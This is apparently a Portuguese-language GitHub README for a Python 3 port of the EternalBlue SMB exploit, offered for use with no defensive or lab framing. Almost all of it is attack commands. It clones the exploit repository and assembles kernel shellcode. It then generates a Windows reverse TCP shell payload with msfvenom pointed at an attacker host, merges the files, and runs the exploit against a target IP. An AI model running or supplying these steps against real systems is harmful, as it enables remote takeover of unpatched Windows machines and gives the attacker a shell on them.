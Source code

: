 # EternalBlue com Python3

##

### 1. Clonando o repositorio:

```
git clone https://github.com/hasecto/eternalblue_python3.git
```

## 2. Compilando o shellcode:

### x64

```
nasm -f bin shellcode/eternalblue_x64.asm -o ./sc_x64_kernel.bin
```

### x86

```
nasm -f bin shellcode/eternalblue_x86.asm -o ./sc_x86_kernel.bin
```

## 3. Criando o payload:

### x64

```
msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x64 --format raw -o sc_x64_payload.bin
```

### x86

```
msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=IP --platform windows -a x86 --format raw -o sc_x86_payload.bin
```

### Fazendo o Merge dos arquivos:

###x64
```
cat sc_x64_kernel.bin sc_x64_payload.bin > shell.bin
```
###x86
```
cat sc_x86_kernel.bin sc_x86_payload.bin > shell.bin
```

## 4. Exploit:

```
python3 eternalblue.py Alvo-IP shell.bin
```


